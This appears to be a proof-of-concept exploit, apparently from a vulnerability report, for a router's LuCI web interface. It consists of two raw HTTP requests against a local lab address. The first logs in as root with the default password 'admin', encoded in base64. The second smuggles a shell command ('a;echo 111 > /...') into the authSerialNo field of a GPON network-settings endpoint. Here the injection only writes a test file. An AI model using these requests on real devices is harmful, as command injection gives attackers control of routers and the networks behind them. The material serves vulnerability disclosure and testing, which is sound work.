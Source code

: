 POST /cgi-bin/luci/ HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Host: 172.17.0.2
Accept-Language: en-US,en;q=0.5
Content-Length: 80
Origin: http://172.17.0.2
Referer: http://172.17.0.2/cgi-bin/luci
Cookie: repeatTimes=0; isLogin=false; __guid=21234567
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username-show=root&username=cm9vdA%3D%3D&password-show=admin&password=YWRtaW4%3D




POST /cgi-bin/luci/;stok=45b068198a390c009d934b99511a1732/admin/gpon/set-net-settings HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Host: 172.17.0.2
Accept-Language: en-US,en;q=0.5
Referer: http://172.17.0.2/cgi-bin/luci
Cookie: sysauth=cd45cccd41728ed81caadf928742b8b5; repeatTimes=0; isLogin=true; __guid=209503442.1611206664802250800.1716428588737.2761
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 72

authSerialNo=a%3Becho+111+%3E+%2F1011854_test_action_set_net_settings&+=
